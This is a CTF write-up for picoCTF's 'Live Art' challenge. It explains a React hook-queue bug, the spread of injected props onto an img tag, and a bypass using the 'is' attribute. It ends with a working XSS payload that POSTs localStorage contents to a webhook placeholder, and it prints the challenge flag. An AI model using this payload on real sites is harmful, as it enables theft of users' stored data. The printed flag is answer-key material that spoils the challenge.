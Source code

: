 # Live Art

### Problem 

You must exploit the React application via XSS to obtain the flag. 

### Solution

This challenge requires a significant amount of prerequisite knowledge. However, nearly all the teams that solved this challenge did not know how their exploit worked. In this writeup I will explain exactly how the exploit works, on top of how to solve it. 

To start off, we must know that React is inherently very resistant to XSS attacks. React automatically escapes text provided such that even if you do manage to inject script content, the page will not run it and will harmless display a `<script>`.

Upon inspecting the source code, we can see that there are 2 possible vectors to XSS this website. The first is through the art viewing page, where you can impersonate a peer and send your own image src, thus being able to freely control the `src` attribute of an image. However, any attempts to escape out of the `src` attribute will result in utter failure, thanks to the way React works. The second is through the error page. On this page you are able to control the content of a text area as well as the `href` attribute of an anchor tag. Directly attempting to XSS through a link will result in more failures (I tried). 

Don't give up just yet! If you look at our client code, we notice that the error component is called inside the drawing component. Which seems to be placed as a child inside of the `WrapComponentError` component along with it's fellow `Viewer` component. 

Now this design is quite a strange choice. Why does the creator use the `ErrorPage` component inside the `Drawing` page when the `WrapComponentError` automatically redirects when the `Viewer` component errors? 

If we analyze the code a little bit, we can map out the role the error page plays here: 
```tsx
import { Viewer } from "../viewer";
import { ErrorPage } from "../error";
const getWrappedError = WrapComponentError(ErrorPage)
const getWrappedViewer = WrapComponentError(Viewer);
const view = bigEnough
        ? getWrappedViewer({ image })
        : getWrappedError({ error: "Please make your window bigger" });
return (
    <div>
        { view }
    </div>
);
```
This code appears to check if the screen size is big enough. If it is big enough, the page will render in the viewer, otherwise it will render the error component. You can verify this by dragging the screen size around on this page. 

Do you see the problem in this code? Probably not. It would take an extremely experienced React developer to see the bug present here. And I mean *significantly* experienced because even I didn't catch it until much later on. The people who solved this challenge merely found it by pure luck with a little guessing. 

You see, the return statement in the function is something called `JSX` (or in this case `TSX`, because it is TypeScript), which is a syntax extension to JS made by React. This syntax extension allows developers to return HTML-esque expressions in their functions, which React picks up and renders. I won't go into too much detail about that because you can read the React docs yourself, but the part I want to focus on is how React handles JSX. 

When you have a JSX expression like 
```jsx
return (<p><Cool/></p>);

function Cool() {
    return (<p>{cookieCount}</p>)
}
```
React calls the `createElement` function to construct the element, then calls `Cool` to retrieve the JSX there, which again calls `createElement` and fed into the virtual DOM tree. `Cool` is considered a child element and is rendered under the jurisdiction of it's parent. 

Do you see the problem now? No? 
```tsx
const view = bigEnough
    ? getWrappedViewer({ image })
    : getWrappedError({ error: "Please make your window bigger" });
```

Instead of calling it as a JSX component, the author calls the function directly. This means whatever JSX is in `getWrappedError` or `getWrappedView` is considered a part of the `_Drawing` component, instead of a child. 

Now this looks like a pretty useless bug. But it is time for us to unveil part 2 of obscure required knowledge for this challenge: hooks!

[Hooks](https://reactjs.org/docs/hooks-intro.html) and states are an integral part of React. Consider a state like a current status of any variable. Hooks can be considered wrappers around this. When the state of something changes, the component gets rerendered. This is very useful when you want to update anything on a page and don't want to trigger an entire reload. This explanation is not extremely accurate but it will do for our purposes. 

Another thing to consider is that hooks attach themselves to the component that calls it. For example, the `_Drawing` creates an `image` hook. Internally, React creates a queue for this component, and places all hooks inside this queue. If the hooks are used as intended, this is completely fine. However, as we can see the JSX was not used as intended, and this causes a pretty severe vulnerability. 

Revisiting our live art code, we can see that our `ErrorPage` creates an hook: 
```ts
const params = useHashParams<{ error: string, returnTo: string }>();
//which in turn calls: 
const [params, setParams] = React.useState(getHashParams<T>());
```
Uh-oh! Stinky! Oopsie Woopsie! A little bit of a fcky wucky! A wittle fcko boingo! 

Our code here creates a hook, and if you recall, our ErrorPage was treated as a part of the `_Drawing` page. This means that the hook is now attached to the `_Drawing` component instead of the `ErrorPage` component and placed in the hook queue for `_Drawing`. My stinky-meter is rising. 

Let's take a look at `Viewer`. We are greeted with 
```ts
const [dimensions, updateDimensions] = React.useReducer(//yada yada)
```
Now `useReducer` is another form of a hook. Uh-oh again! This hook is also placed in the former-parent's queue! Moreover, when React accesses the state, it might access the wrong one due to these states being accesses via queue index! My stinky-meter us going up up and away!

Now basically, if we manage to do a little trickery, we can fool React into using `params` hook from the `ErrorPage` as the `dimensions` of the `Viewer`. Quite stinky indeed.

Now if we scroll down a little...
```tsx
return (
    <div>
        <h1>Viewing</h1>
        <img src={props.image} { ...dimensions }/>
    </div>
)
```
I am heartbroke. The author used spread syntax here. What spread syntax (`...`) does is that it "deflates" the object. For example, if `dimensions` was `{test: 'hi'}`, the code is similar to: `<img src={props.image} { test: 'hi' }/>`. That's dangerous, don't ya think?

Now we kind of know how to do stuff now: 
1. Start window at < 600px wide and attach an error hash payload (e.g. `#test=hi`) to the link. We want the error page to be triggered first so the hook is placed into the queue. 
2. Increase page width. We can only fire the `resize` event once. If we do it more than once React will place the queue properly. We want to make sure that when the hook initializes in `Viewer` it accesses the incorrect state in the queue which contains our malicious payload. 
3. PWN!

Now that we can inject anything we want into that image, we can try injecting an `onerror` attribute along with a faulty `src` to trigger the JS. However, when the resize is dispatched the `onerror` simply vanishes. 

Onto part 3 of obscure React/HTML knowledge! This is the custom component clue provided. When an HTML element has an `is` attribute, it is defined as a custom element. Taking a closer look at how React renders things internally, it appeats that it looks at `isCustomComponentTag`, and if it exists, does whatever you want it to render without giving you a hassle. Apparently, React bails on handling props because it assumes that, since you are using a custom element, you will be handling the props yourself. 

This means that if you attach `&is=` to your URL, the JS should run. Now we basically have our solution: 
1. Open popup/iframe to `http://localhost:4000/drawing/wiudsaadwas#error={do stuff here}&src=stuff&is=` with a size of < 600
2. Set size to 601 px
3. Win

To do this, we can use the following payload: 
```html
<body>
    <iframe id="iframe" src="http://localhost:4000/drawing/syahdas#onerror=fetch('WEBHOOK',{method:'POST',headers:[['Content-Type','application/json']],body:JSON.stringify({content:window.localStorage.getItem('username')})})&src=urmom&is=" width="599"></iframe>
    <script>
        setTimeout(function() {
            document.getElementById("iframe").width = 601;
        }, 2000)
    </script>
</body>
```
This code will open an iframe to the page at 599 px, set iframe to 601 px afer 2 seconds, and the code on the page will execute, sending the localStorage content to us through a webhook. 

To PWN successfully, you will need to host this on your own HTTP server and then send the link through the XSS submission page. 

Yay!

Our flag is then `picoCTF{beam_me_up_reacty_eb269a4c}`

P.S. I solved this challenge after it was finished
